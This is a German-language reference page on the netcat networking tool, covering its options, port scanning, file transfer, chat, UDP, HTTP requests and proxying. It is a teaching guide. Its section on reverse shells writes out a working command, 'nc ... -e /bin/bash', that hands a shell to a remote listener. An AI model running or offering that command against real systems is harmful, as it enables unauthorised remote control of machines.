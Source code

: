 ```yaml
---
title: Netcat
layout: default
nav_order: 6
---
```


# Netcat

Netcat ist ein vielseitiges Tool zur Arbeit mit TCP- und UDP-Verbindungen. Es wird oft als "Schweizer Taschenmesser" für Netzwerke bezeichnet und eignet sich für Port-Scans, Datenübertragung, Debugging und einfache Server/Client-Kommunikation.

[Netcat Manpage](https://man7.org/linux/man-pages/man1/nc.1.html)

#### **Grundlegende Syntax**
```
nc [Optionen] <Ziel> <Port>
```

---

### **Häufig verwendete Optionen**

- **`-l`** → Lauscht auf eingehenden Verbindungen (Listen-Modus).  
- **`-p`** → Gibt den Port an, auf dem Netcat lauschen soll.  
- **`-u`** → Nutzt UDP anstelle von TCP.  
- **`-v`** → Zeigt detaillierte Verbindungsinformationen an (verbose).  
- **`-z`** → "Zero-I/O"-Modus, häufig für Port-Scans verwendet.  
- **`-w <Sekunden>`** → Timeout für Verbindungen festlegen.  
- **`-e <Programm>`** → Führt ein Programm aus, wenn eine Verbindung hergestellt wird (z. B. Shell). **(Achtung: Kann von Angreifern ausgenutzt werden.)**

---

### **Anwendungsfälle**

#### **1. Port-Scan**
```bash
nc -zv <IP-Adresse> <Port-Bereich>
```
Beispiel:
```bash
nc -zv 192.168.1.1 20-80
```
- **`-z`** → Sendet keine Daten, prüft nur, ob der Port offen ist.
- **`-v`** → Gibt detaillierte Ergebnisse aus.

#### **2. Einfache Verbindung zu einem Server**
```bash
nc <IP-Adresse> <Port>
```
Beispiel:
```bash
nc 192.168.1.1 80
```
- Baut eine Verbindung zu einem HTTP-Server auf. Eingabe von HTTP-Befehlen wie `GET /` möglich.

#### **3. Lokalen TCP-Server starten**
```bash
nc -l -p <Port>
```
Beispiel:
```bash
nc -l -p 1234
```
- Lauscht auf Port 1234 für eingehende Verbindungen.

#### **4. Dateiübertragung**
- **Datei senden:**
  ```bash
  nc <Ziel-IP> <Port> < datei.txt
  ```
- **Datei empfangen:**
  ```bash
  nc -l -p <Port> > empfangene_datei.txt
  ```

Beispiel:
- Auf Server (empfangen):
  ```bash
  nc -l -p 1234 > empfangene_datei.txt
  ```
- Auf Client (senden):
  ```bash
  nc 192.168.1.1 1234 < datei.txt
  ```

#### **5. Chat-Verbindung**
- **Server:**
  ```bash
  nc -l -p <Port>
  ```
- **Client:**
  ```bash
  nc <Ziel-IP> <Port>
  ```
Beispiel:
- Server:
  ```bash
  nc -l -p 1234
  ```
- Client:
  ```bash
  nc 192.168.1.1 1234
  ```

#### **6. Reverse Shell (Vorsicht!)**
- **Auf Server lauschen:**
  ```bash
  nc -l -p <Port>
  ```
- **Shell senden (auf Ziel):**
  ```bash
  nc <Ziel-IP> <Port> -e /bin/bash
  ```
Beispiel:
- Server:
  ```bash
  nc -l -p 4444
  ```
- Client:
  ```bash
  nc 192.168.1.1 4444 -e /bin/bash
  ```

**Achtung:** Reverse Shells können ein großes Sicherheitsrisiko darstellen. Nutzung nur in sicheren und kontrollierten Umgebungen.

---

### **Erweiterte Nutzung**

#### **1. UDP-Server und Client**
- **UDP-Server starten:**
  ```bash
  nc -u -l -p <Port>
  ```
- **UDP-Client verbinden:**
  ```bash
  nc -u <Ziel-IP> <Port>
  ```

#### **2. HTTP-Anfragen senden**
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc <IP-Adresse> 80
```
Beispiel:
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc 93.184.216.34 80
```

#### **3. Verbindung mit Timeout**
```bash
nc -w <Sekunden> <Ziel-IP> <Port>
```
Beispiel:
```bash
nc -w 5 192.168.1.1 80
```
- Beendet die Verbindung, wenn nach 5 Sekunden keine Antwort erfolgt.

#### **4. Proxy-Datenverkehr analysieren**
Netcat kann genutzt werden, um zwischen zwei Hosts als Proxy zu fungieren:
```bash
mkfifo /tmp/proxy
nc -l -p 8080 < /tmp/proxy | nc <Ziel-IP> 80 > /tmp/proxy
```

---

### **Fehlerbehebung und Tipps**

- **Problem:** Verbindung schlägt fehl.  
  **Lösung:** Prüfe Firewall-Einstellungen und stelle sicher, dass der Port auf beiden Seiten offen ist.

- **Problem:** Keine Ausgabe bei `-zv`.  
  **Lösung:** Teste explizit mit verschiedenen Protokollen (`-u` für UDP oder ohne `-u` für TCP).

- **Problem:** Datenübertragung zu langsam.  
  **Lösung:** Nutze spezialisierte Tools wie SCP oder rsync für große Dateien.

---

### **Sicherheitswarnung**

Netcat kann bei unsachgemäßer Verwendung Sicherheitsrisiken darstellen, insbesondere durch die Nutzung der Option `-e` (Remote Execution). Stelle sicher, dass das Tool nur in vertrauenswürdigen Umgebungen und mit ausreichender Zugriffskontrolle eingesetzt wird.
